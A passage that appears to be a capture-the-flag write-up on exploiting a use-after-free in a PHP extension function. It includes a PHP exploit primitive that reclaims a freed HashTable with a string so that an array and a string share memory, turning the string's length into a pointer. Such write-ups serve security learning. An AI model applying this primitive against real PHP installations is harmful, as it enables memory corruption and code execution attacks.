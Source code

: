The expected output is to print from 0 to 10 but the program printed 0 to 255, meaning that `$my_range` is freed and reclaimed by `$second`. 

# Exploitation
Since `struct HashTable` is 56 bytes, we can reclaim a `struct HashTable` by allocating a string of 24 bytes. This is because a 32 byte header is appended to the string payload when it is created. I figured out the struct size by adding a `printf("%d\n", sizeof(HashTable))` to the php source code, but you can also figure this out by looking at IDA and looking at the arguments that are passed to `emalloc`. 

So this is my exploit primitive. 

```php
function create_awesome_objects() {
    $uaf = range(0, 10);
    pwnlib_flat($uaf);
    $reclaim1 = str_repeat("A", 24);
    // drop uaf once more, which results in dropping $reclaim
    $uaf = null;
    $reclaim2 = range(0,10);
    if (strlen($reclaim1) < 10000000) {
        die("[-] Failed to create magic string");
    }
    return array($reclaim1, $reclaim2);
}
```

A brief explanation of what's happening. 

(1) `$uaf` is first freed by `pwnlib_flat`.  
(2) `$reclaim1` reclaims the `HashTable` of `$uaf`.  
(3) Free `$uaf` once more by dropping its reference. This action also frees the `zend_string` structure of `$reclaim`.  
(4) `$reclaim2` is reclaims this address. As a result, `$reclaim2` is a array and `$reclaim1` is a string, but their `zval` values point to the same address.  


This is the definition of `zend_string`. 

```c
struct _zend_string {
	zend_refcounted_h gc;
	zend_ulong        h;                /* hash value */
	size_t            len;
	char              val[1];
};
```

You can see that, there are no pointer fields in `zend_string`, so it is rather easy to forge a valid `zend_string` structure. 

At offset 0x10 `HashTable` is a pointer field (`arData`) and `zend_string` has the `len` field. Therefore, as `$reclaim2` relcaims the address, the length field of `$reclaim1` becomes a pointer which is in the form of 0x7FFFXXXXXXXX. 
